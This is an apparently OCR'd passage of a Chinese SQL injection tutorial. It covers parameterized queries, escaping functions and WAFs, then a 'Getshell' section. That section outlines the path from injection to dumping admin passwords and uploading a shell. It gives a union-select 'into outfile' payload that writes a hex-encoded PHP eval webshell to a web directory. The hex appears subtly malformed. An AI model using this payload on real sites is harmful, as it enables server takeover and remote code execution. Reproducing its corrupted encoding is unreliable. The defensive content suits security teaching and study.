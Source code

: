 ```
```

JAVA

```
java.sql.PreparedStatement prep = connection.prepareStatement(

"SELECT * FROM `users` WHERE USERNAME = ? AND PASSWORD = ?");

prep.setString(1, username);

prep.setString(2, password);

prep.executeQuery();
```
 
PS：尽管SQL语句大体相似，但是在不同数据库的特点，可能参数化SQL语句不同，例如在Access中参数化SQL语句是在参数直接以"?"作为参数名，在SQL Server中是参数有"@"前缀，在MySQL中是参数有"?"前缀，在Oracle中参数以":"为前缀。

过滤函数的使用

a)   addslashes()

b)   mysql_escape_string()

c)   mysql_real_escape_string()

d)   intval()

框架及第三方过滤函数与类

a)   JAVA hibernate框架

b)   Others

###6.2  产品加固

Web应用防火墙——WAF

关键词:云waf、安全狗、云锁、sqlchop

##7   关联应用
###7.1  Getshell
####7.1.1        普通的shell方法

注入

查数据

找管理员密码

进后台

找上传

看返回

getshell

PHP MYSQL 类，大权限，知路径，传文件，回shell(上传&命令执行)，OS-SHELL。

`Union select getshell
a)   and 1=2 union select 0x3c3f70687020a6576616c28245f504f53545b615d293ba3f3e into outfile '/alidata/www/cms/ttbdxt/conf.php'—`
